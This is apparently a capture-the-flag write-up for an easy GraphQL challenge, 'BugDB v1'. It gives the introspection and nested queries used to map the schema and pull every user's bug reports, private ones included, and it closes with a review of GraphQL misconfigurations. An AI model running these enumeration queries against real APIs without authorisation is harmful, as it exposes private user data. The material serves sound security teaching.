



# BugDB v1

**Difficulty:** Easy  
**Category:** Web, GraphQL  
**Flags:** 1/1  
**Status:** ✅ Completed

---

## 🧠 Overview

BugDB v1 is a GraphQL-based challenge that requires understanding GraphQL introspection and query techniques to extract sensitive information from a bug database. The goal is to use GraphQL's introspection capabilities to discover the schema and then craft queries to find hidden data.

---

## 🔍 Step 1: Schema Discovery

The first step was to discover what types exist in the GraphQL schema using introspection:

```graphql
query {
  __schema {
    types {
      name
    }
  }
}
```

**What this does:**
- `__schema` - GraphQL's introspection entry point
- `types` - Lists all available types in the schema
- `name` - Gets the name of each type

This query reveals all the data types available for querying, giving us a roadmap of what we can explore.



---

## 🔍 Step 2: Query Field Analysis

Once we knew the available types, we needed to understand what fields we could query on the main `Query` type:

```graphql
query {
  __type(name: "Query") {
    fields {
      name
      description
      args {
        name
        type {
          name
          kind
          ofType {
            name
            kind
          }
        }
      }
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```

**What this does:**
- `__type(name: "Query")` - Introspects the Query type specifically
- `fields` - Lists all available fields on the Query type
- `args` - Shows what arguments each field accepts
- `type` - Shows the return type of each field
- `ofType` - Shows nested type information (for lists, non-nulls, etc.)

This comprehensive query shows us exactly what we can query and how to structure our requests.



---

## 🔍 Step 3: User Discovery

With the schema mapped out, we started exploring the available data by querying for users:

```graphql
query {
  allUsers(first: 5) {
    edges {
      node {
        id
        username
      }
    }
  }
}
```

**What this does:**
- `allUsers(first: 5)` - Gets the first 5 users from the database
- `edges` - GraphQL connection pattern for pagination
- `node` - The actual user object
- `id` and `username` - User properties we want to retrieve

This query helped us understand how many users exist and their usernames, giving us targets for deeper investigation.

---

## 🔍 Step 4: Complete Data Extraction

Finally, we crafted a comprehensive query to extract all user data including their associated bugs:

```graphql
query {
  user {
    edges {
      node {
        id
        username
        bugs {
          pageInfo {
            startCursor
            endCursor
          }
          edges {
            cursor
            node {
              id
              reporterId
              text
              private
              reporter {
                id
              }
            }
          }
        }
      }
    }
  }
}
```

**What this does:**
- `user` - Gets all users (different from allUsers)
- `bugs` - For each user, gets their associated bugs
- `pageInfo` - Pagination information
- `text` - The actual bug report content (likely contains the flag)
- `private` - Boolean indicating if the bug is private
- `reporter` - Additional reporter information

This comprehensive query revealed all the sensitive information, including the flag hidden in the bug reports.



---

## 🔑 Key GraphQL Concepts

### Introspection
GraphQL's introspection system allows you to query the schema itself:
- `__schema` - Access to the entire schema
- `__type` - Information about specific types
- `__typename` - Get the type name of any object

### Connection Pattern
GraphQL uses a connection pattern for pagination:
- `edges` - Array of connection edges
- `node` - The actual object being queried
- `pageInfo` - Pagination metadata
- `cursor` - Pagination cursor for each edge

### Field Selection
GraphQL allows precise field selection:
- Only request the fields you need
- Nest queries to get related data
- Use aliases to rename fields in the response

---

## 🛠️ Attack Vector Analysis

### Information Disclosure
The main vulnerability was **excessive information disclosure** through:
1. **Unrestricted Introspection** - Full schema accessible
2. **No Access Controls** - All user data queryable
3. **Sensitive Data Exposure** - Private bug reports accessible
4. **Over-permissive Queries** - No rate limiting or depth limiting

### GraphQL Security Issues
Common GraphQL security problems demonstrated:
1. **Schema Leakage** - Introspection enabled in production
2. **Authorization Bypass** - No field-level authorization
3. **Information Enumeration** - Ability to query all data
4. **Query Complexity** - No query depth or complexity limits

---

## 🎯 Flag Discovery

The flag was discovered in the bug report text field, likely in a private bug report that should not have been accessible through the public API. The comprehensive query revealed all bug reports regardless of their privacy settings.

---

## 🛠️ Tools Used

- **GraphQL Introspection** - Built-in schema discovery
- **GraphQL Playground/GraphiQL** - Query interface
- **Manual Query Crafting** - Custom GraphQL queries

---

## 🔑 Key Learnings

1. **GraphQL Introspection** - Always check if introspection is enabled
2. **Schema Enumeration** - Map out all available types and fields
3. **Data Relationship Mapping** - Understand how data connects
4. **Comprehensive Queries** - Query for all related data in one request
5. **Security Testing** - Look for authorization bypasses and information disclosure

---

## ✅ Summary

This challenge highlighted the importance of proper GraphQL security configuration. The main issues were:
- Introspection enabled in production
- No field-level authorization
- Sensitive data accessible without proper access controls
- Over-permissive query capabilities

The solution involved systematic schema discovery followed by comprehensive data extraction to find the hidden flag in the bug reports.